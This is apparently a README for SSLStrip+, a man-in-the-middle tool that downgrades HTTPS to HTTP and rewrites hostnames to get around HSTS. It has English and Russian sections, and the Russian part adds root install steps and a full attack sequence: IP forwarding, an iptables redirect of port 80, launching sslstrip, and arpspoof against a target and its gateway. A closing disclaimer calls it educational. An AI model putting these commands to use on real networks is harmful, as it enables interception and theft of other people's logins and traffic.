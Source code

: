 SSLStrip+
=========

This is a new version of [Moxie´s SSLstrip] (http://www.thoughtcrime.org/software/sslstrip/) with the new feature to avoid HTTP Strict Transport Security (HSTS) protection mechanism.  
  
This version changes HTTPS to HTTP as the original one plus the hostname at html code to avoid HSTS. Check my slides at BlackHat ASIA 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) for more information.  
  
For this to work you also need a DNS server that reverse the changes made by the proxy, you can find it at https://github.com/LeonardoNve/dns2proxy.


Demo video at: http://www.youtube.com/watch?v=uGBjxfizy48

Ru:

Это новая версия [Moxie´s SSLstrip] (http://www.thoughtcrime.org/software/sslstrip/) с новой возможностью обхода механизма защиты HTTP Strict Transport Security (HSTS).  
  
Эта версия меняет HTTPS на HTTP, как и оригинальная версия, плюс имя хоста в html-коде, чтобы избежать HSTS. Посмотрите мои слайды на BlackHat ASIA 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) для получения дополнительной информации.  
  
Для того чтобы это работало, вам также нужен DNS-сервер, который обращает изменения, сделанные прокси, вы можете найти его по адресу https://github.com/LeonardoNve/dns2proxy.

Установка:
(Всё делать под root!)
1. Рекомендуется использовать python 2.7.18 (установка на kali: https://www.kali.org/docs/general-use/using-eol-python-versions/)
2. pip install -r requirements.txt
3. python sslstrip.py

Использование (взято: https://kali.tools/?p=177):
1. Переключите вашу машину в режим пересылки (форвардинга).
echo "1" > /proc/sys/net/ipv4/ip_forward

2. Настройте iptables для редиректа HTTP трафика на sslstrip.
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <listenPort>

3. Запустите sslstrip.
sslstrip.py -l <listenPort>

4. Запустите arpspoof, чтобы убедить сети, что им следует отправлять их трафик вам.
arpspoof -i <interface> -t <targetIP> <gatewayIP>
  
(Я не несу ответственности за ваши действия! Я за использование данного инструмента в образовательных целях!)
